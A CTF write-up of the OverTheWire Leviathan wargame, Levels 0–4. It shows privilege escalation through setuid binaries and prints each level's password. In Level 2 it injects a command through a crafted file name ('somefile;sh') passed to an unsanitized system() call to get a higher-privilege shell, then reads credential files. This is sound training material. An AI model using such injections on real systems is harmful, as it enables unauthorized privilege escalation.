 # Solutions
**THERE ARE SPOILERS AHEAD.**

These are my full solutions to the [leviathan](https://overthewire.org/wargames/leviathan/) ctf wargame. This is an "introductory" wargame so most of the challenges are fairly easy if you're familiar with common linux commands. If you're not familiar with the linux commands already, this ctf can be challenging but doable if you read the man pages and follow the hints. **Don't be discouraged!** You're learning a new language.

There are also a lot of good resources online for this war game in case you get stuck. My solutions will be fairly terse, although I will try to point out interesting things I find.


## Level 0
Log in with the username and password `leviathan0` given to us by the prompt.

## Level 0 to Level 1
Taking a look around on the server, this CTF seems to be structured similarly to the `bandit` other wargames that have passwords in `/etc/leviathan_pass/<password_file>`. Unfortunately, we can't read the `/etc/leviathan_pass/leviathan1` file.

Looking at the current directory, we see the following:

```bash
leviathan0@leviathan:~$ ls -hartl
total 24K
-rw-r--r--  1 root       root        675 May 15  2017 .profile
-rw-r--r--  1 root       root       3.5K May 15  2017 .bashrc
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
drwxr-xr-x 10 root       root       4.0K Aug 26  2019 ..
drwxr-x---  2 leviathan1 leviathan0 4.0K Aug 26  2019 .backup
drwxr-xr-x  3 root       root       4.0K Aug 26  2019 .
```

I took a look in `.profile`, `.bashrc`, `.bash_logout` and didn't see anything that stood out. `.backup` looks suspicious though. Inside that hidden directory, it has 1 file, `bookmarks.html` which is absolutely full of junk. Going out on a limb, I'm gonna `cat bookmarks.html | grep leviathan` and hope for the best. Lo and behold, I am rewarded with the following:

```
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```

password: `rioGegei8m`

## Level 1 to Level 2
Looking in the main directory again, we see there's a file called `check`:

```bash
leviathan1@leviathan:~$ ls -hartl
total 28K
-rw-r--r--  1 root       root        675 May 15  2017 .profile
-rw-r--r--  1 root       root       3.5K May 15  2017 .bashrc
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
drwxr-xr-x 10 root       root       4.0K Aug 26  2019 ..
-r-sr-x---  1 leviathan2 leviathan1 7.3K Aug 26  2019 check
drwxr-xr-x  2 root       root       4.0K Aug 26  2019 .
```

It's a `setuid` binary which means that, if we can run it, it will run as the `leviathan2` user (the owner of the file). We can tell that by the `s` bit in the permissions section of the `check` file.

When we try to run it, it prompts us for a password. The current level's password does not work.

Going out on a limb, I looked through `strings check` to see if anything stood out. There were a few things that looked like they may have been passwords, but nothing worked.

I'm getting really desperate now and running `cat check`... on a binary file!? Yes. Scanning through, I see a LOT of garbage, but a few interesting words pop up. `sex`, `god`, `love`.

Running `check` and inputting `sex` for the password gives us a new prompt! Running `whoami` tells us that we are now `leviathan2`. Awesome. Time to get the password from `/etc/leviathan_pass/leviathan2`

password: `ougahZi8Ta`

## Level 2 to Level 3
Looking inside here, we again see a `setuid` binary called `printfile`. Running `printfile` alerts us to the fact that we need to give it a `filename` argument. Running `./printfile /etc/leviathan_pass/leviathan3` tells us that "cant have that file...". Hmm. `strings` and `cat` are no help here.

I had to do some googling for this one, and I found out about the `ltrace` command.

```bash
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                     = -1
puts("You cant have that file..."You cant have that file...
)                              = 27
+++ exited (status 1) +++
```

```bash
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                     = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
geteuid()                                                       = 12002
geteuid()                                                       = 12002
setreuid(12002, 12002)                                          = 0
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                          = 0
+++ exited (status 0) +++
```

So, _if_ we had permission to the file, the system would run `/bin/cat <file>`. When we check for access, though, `printfile` tells us we don't have it. We can see that the system calls directly (without any sanitization). So, theoretically (and in actuality), we can make `printfile` run:

`/bin/cat /tmp/somedir/somefile;sh` which will plop us into the shell for `leviathan3`. We just need to

```
mkdir /tmp/somedir/
touch "/tmp/somedir/somefile;sh"
./printfile "/tmp/somedir/somefile;sh"
```

password: `Ahdiemoo1j`

There's also a slightly more in depth trick utilizing symlinks that can be found by googling for the solution to this level. I like my solution :).

## Level 3 to Level 4
Now we have an executable file called `level3` that prompts us for a password when we execute it. This level is pretty easy since we know about `ltrace`. It tells us that the password we need to enter to the binary is `snlprintf` (look at the `strcmp` below):

```bash
leviathan3@leviathan:~$ ltrace ./level3
__libc_start_main(0x8048618, 1, 0xffffd784, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                                      = -1
printf("Enter the password> ")                                  = 20
fgets(Enter the password> dumb
"dumb\n", 256, 0xf7fc55a0)                                = 0xffffd590
strcmp("dumb\n", "snlprintf\n")                                 = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                      = 19
+++ exited (status 0) +++
```

Utilizing that password gives us the `leviathan4` shell from which we can `cat /etc/leviathan_pass/leviathan4`.

password: `vuH0coox6m`

## Level 4 to Level 5